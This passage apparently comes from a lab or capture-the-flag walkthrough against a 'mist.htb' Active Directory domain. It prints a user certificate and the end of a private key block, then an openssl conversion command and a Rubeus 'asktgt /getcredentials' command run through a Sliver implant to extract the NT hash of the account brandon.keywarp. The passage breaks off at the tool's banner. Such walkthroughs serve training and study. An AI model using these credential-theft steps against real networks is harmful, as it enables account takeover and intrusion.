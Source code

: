 -----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGDzCCBPegAwIBAgITIwAAADynyFW94i1o1QAAAAAAPDANBgkqhkiG9w0BAQsF
ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEbWlzdDEV
MBMGA1UEAxMMbWlzdC1EQzAxLUNBMB4XDTI1MDQyMjE3NDE1MVoXDTI2MDQyMjE3
NDE1MVowVTETMBEGCgmSJomT8ixkARkWA2h0YjEUMBIGCgmSJomT8ixkARkWBG1p
c3QxDjAMBgNVBAMTBVVzZXJzMRgwFgYDVQQDEw9CcmFuZG9uLktleXdhcnAwggEi
MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDkksp8dTYv1aE6g5i8uT9Y3rzz
cjY0PCyCPiiJaE2YsPKx7xADBB39feZx8cleHZK6NckWZEpxXFJrhvgNTwlQ66ku
B+bh0Va4uErWSakszs5LrTk/lmU75xYqJDDkGdfoAKxbHHwXpag54PxsHuiJhhle
czN8nOf15V/UT6fYbiyOKDQnZyH9V+nOocaLtXxa9YLvClsCAtdFdWQePnSTAmBB
fZZkjbo9MgqYziTcVtn5A4HrRPuB2FANcJaOqSykTHv9edWHOhbLpIJwcaqzxdno
4lJebe/EIX/ORqNXztF74RyvAebn/b09OXMLSmn1OLkxoRBlqkd69JwehEC5AgMB
AAGjggLpMIIC5TAXBgkrBgEEAYI3FAIECh4IAFUAcwBlAHIwKQYDVR0lBCIwIAYK
KwYBBAGCNwoDBAYIKwYBBQUHAwQGCCsGAQUFBwMCMA4GA1UdDwEB/wQEAwIFoDBE
BgkqhkiG9w0BCQ8ENzA1MA4GCCqGSIb3DQMCAgIAgDAOBggqhkiG9w0DBAICAIAw
BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFKFJx0lApZkTyAOY+RnZRg1R
lANZMB8GA1UdIwQYMBaAFAJHtA9/ZUDlwTbDIo9S3fMCAFUcMIHEBgNVHR8Egbww
gbkwgbaggbOggbCGga1sZGFwOi8vL0NOPW1pc3QtREMwMS1DQSxDTj1EQzAxLENO
PUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1D
b25maWd1cmF0aW9uLERDPW1pc3QsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlv
bkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBuwYI
KwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1taXN0LURD
MDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZp
Y2VzLENOPUNvbmZpZ3VyYXRpb24sREM9bWlzdCxEQz1odGI/Y0FDZXJ0aWZpY2F0
ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwMwYDVR0R
BCwwKqAoBgorBgEEAYI3FAIDoBoMGEJyYW5kb24uS2V5d2FycEBtaXN0Lmh0YjBP
BgkrBgEEAYI3GQIEQjBAoD4GCisGAQQBgjcZAgGgMAQuUy0xLTUtMjEtMTA0NTgw
OTUwOS0zMDA2NjU4NTg5LTI0MjYwNTU5NDEtMTExMDANBgkqhkiG9w0BAQsFAAOC
AQEAWt1+bEogjZrDctYVNrc5AiHd6wHTbVuPcbinsi8dvpoXHLuNLej5W6PwK9fw
P/J9BsgCigSx6tTFzBgEM/qSJMoVzxelcq+VClPCapxtiHRkEhxXsGs8ebpKfhaU
w7JsYny5CYCqBatWSrCjN+nnzMTNDNsYhX4kBa4UBYPGBzU4QeMPitmchtdiLPuo
85rFJeM9CpmQNUG9cI0+2femtpais26JTUYz406tz3bO7fFSzVs54sqpCqhChJuK
xDH9V/NHj5BCKrgpfYp6xdqOH6AgGht2VxsfTPwBUgFRhpmwseVIzoHyGY7lBDTQ
xP4FW1QbjxrkxaUWwwrKTQbGrA==
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

- get nthash of brandon.keywarp
```
sliver (GRATEFUL_PERCH) > rubeus asktgt /user:brandon.keywarp /certificate:cert.pfx /getcredentials /show /nowarp

[*] rubeus output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
